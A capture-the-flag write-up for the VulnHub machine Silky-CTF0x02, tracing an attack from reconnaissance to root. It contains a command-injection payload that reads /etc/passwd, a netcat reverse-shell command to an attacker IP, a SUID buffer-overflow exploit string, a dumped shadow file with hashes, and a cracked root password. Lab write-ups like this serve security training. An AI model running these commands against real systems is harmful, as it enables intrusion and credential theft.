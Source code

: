 # Silky-CTF0x02 Writeup  
###### Author: Anthony Criscione (arc32x)  
###### (.ova available on VulnHub)


## Info Gathering

### *nmap -p- -T4 -A -v silky*
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### *dirb http://silky*
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### *nikto -h http://silky*
- **Found nothing of interest**

### *nikto -h "http://silky/admin.php?username=&password="*
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: *nc -lvp 4444*
  - Target: *nc 192.168.56.102 4444 -e /bin/sh*
  - Better terminal with python: *python -c "import pty; pty.spawn('/bin/bash')"*


## Privilege Escalation

### sudo -l
- **Found nothing of interest (password required)**

### *find / -perm -u=s -type f 2>/dev/null*
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run *./cat_shadow*; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: *msf-pattern_create -l 100*
      - Pattern returned: **Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A**
    - Target: *./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A*
      - Target returned: **0x63413163 != 0x496c5962**
    - Attacker: *msf-pattern_offset -q 63413163*
      - Offset returned: **Exact match at offset 64**
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: *./cat_shadow $(python -c "print 'A'*64 + '\\x62\\x59\\x6c\\x49'")*
- Exploit successful! The target shadow file is printed to the terminal.

```bash
Trying to read /etc/shadow  
Succes  
Printing...  
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
daemon:*:18012:0:99999:7:::  
[redacted]  
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
mysql:!:18012:0:99999:7:::  
sshd:*:18012:0:99999:7:::  
```

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as **silky_shadow**). Also printed and copied contents of **/etc/passwd** (saved as **silky_passwd**).
- *unshadow silky_passwd silky_shadow > silky_john*
- *john silky_john --wordlist=/usr/share/wordlists/rockyou.txt*
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password **greygrey**.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
